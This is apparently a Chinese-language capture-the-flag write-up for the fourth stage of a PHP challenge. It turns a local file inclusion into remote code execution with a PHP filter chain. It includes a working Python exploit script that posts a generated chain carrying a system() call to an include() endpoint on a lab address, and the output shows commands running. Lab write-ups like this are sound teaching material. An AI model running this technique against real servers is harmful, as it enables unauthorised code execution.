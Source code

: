 這一題是最難的，最後忍不住還是去看了教學，但跟著做還是要花好久的功夫才能打穿，這一題就是典型的LFI2RCE的題目，一開始是看[飛飛的文章](https://ithelp.ithome.com.tw/articles/10241555)，發現他可以成功query`../../../../../proc/self/environ`這個東西，所以有一大半時間都在找如何用這個東西inject webshell達到RCE，但不確定是權限不夠還是怎麼樣，過程中困難重重也沒有快要成功的跡象，因此就只能嘗試教學中提到的php filter chain，話說[steven的文章](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)很優質耶，已經是一個php lfi2rce的教科書了，重點是察看的payload來源於[wupco大的script](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)也是怎麼試都不成功，最後是察看[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)這篇文章才解決，我是用[他們自己寫的script](https://github.com/synacktiv/php_filter_chain_generator)，不確定是哪個環節出問題

#### Exploit
Script For Stage 4
```python=
import requests
import subprocess
from sys import *

url = "http://172.31.210.1:33002/stage4_b182g38e7db23o8eo8qwdehb23asd311.php"

command = ""
for i in argv[1:]:
    command += i + ' '

result = subprocess.Popen(['python', './php_filter_chain_generator/php_filter_chain_generator.py', '--chain', f'<?php system("{command}")?>'], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

payload, _ = result.communicate()
# print(payload.splitlines())
data = {"👀": payload.splitlines()[-1]}
response = requests.post(url, data=data)
print(response.text)
```
```bash
$ python exp.py ls
<h1>👻 Stage 4 / 4</h1><code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">echo&nbsp;</span><span style="color: #DD0000">'&lt;h1&gt;👻&nbsp;Stage&nbsp;4&nbsp;/&nbsp;4&lt;/h1&gt;'</span><span style="color: #007700">;<br /><br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />echo&nbsp;</span><span style="color: #DD0000">'&lt;hr&gt;'</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">extract</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">))&nbsp;<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">);<br />else&nbsp;die(</span><span style="color: #DD0000">'ERROR:&nbsp;👀&nbsp;should&nbsp;be&nbsp;given'</span><span style="color: #007700">);</span>
</span>
</code><hr>bin
boot
dev
etc
flag_cr14x5hc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
```
